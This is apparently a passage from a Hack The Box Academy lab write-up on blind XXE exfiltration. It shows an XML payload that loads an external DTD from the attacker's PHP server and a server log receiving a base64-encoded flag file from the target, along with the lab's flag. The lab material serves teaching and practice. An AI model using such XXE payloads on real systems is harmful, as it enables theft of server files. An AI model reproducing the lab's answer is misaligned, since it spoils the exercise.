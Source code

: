 ```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.155  netmask 255.255.254.0  destination 10.10.15.155

[SNIP]

┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ php -S 0.0.0.0:8000

[Wed Jun 11 05:47:18 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.155:8000/xxe.dtd">
  %remote;
  %oob;
]>

[SNIP]

<email>&content;</email>

[SNIP]
```

![Burp Suite - POST Blind XXE Attempt](./assets/screenshots/web_attacks_blind_data_exfiltration_burpsuite_post_blind_xxe_attempt.png)

```
[CONTINUE]

[Wed Jun 11 05:49:44 2025] 10.129.234.170:58414 Accepted
[Wed Jun 11 05:49:44 2025] 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>

[Wed Jun 11 05:49:44 2025] 10.129.234.170:58414 [200]: GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K
[Wed Jun 11 05:49:44 2025] 10.129.234.170:58414 Closing
```
